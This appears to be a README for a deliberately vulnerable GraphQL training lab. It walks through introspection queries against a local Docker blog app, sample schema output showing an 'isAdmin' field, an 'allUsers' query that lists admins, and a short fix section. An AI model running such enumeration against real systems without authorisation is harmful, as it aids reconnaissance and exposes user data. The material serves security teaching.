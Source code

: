 # GraphQL Introspection

The application uses GraphQL to retrieve Users and Posts for the DefDev new blog. 

> Run the application 

```sh
docker build . -t graphql/intro && docker run -ti -p 5000:5000 graphql/intro
```

Great now the app is running. Browse to `http://0.0.0.0:5000/` 

## Discovery 

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

<SCREENSHOT>


## Exploitation 

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported. 


Let' use the `GraphiQL` UI to send queries to the backend and discover what is available. 

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `UserObject` one. If we build a more complex query we can ask for more information, exploring every field available. Let's send the following:

```
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
        ofType {
          name
          kind
        }
      }
    }
  }
}
```
In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```
{
  "data": {
    "__type": {
      "name": "UserObject",
      "fields": [
        {
          "name": "uuid",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        },
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "isAdmin",
          "type": {
            "name": "Boolean",
            "kind": "SCALAR",
            "ofType": null
          }
        },
        {
          "name": "posts",
          "type": {
            "name": "PostObjectConnection",
            "kind": "OBJECT",
            "ofType": null
          }
        },
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "ID",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
```
> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application. 
 

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
query availableQueries {
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}
```

That will give us the `allUsers` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
  allUsers {
    edges {
      node {
        username
        isAdmin
      }
    }
  }
}

```

## Fix

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.


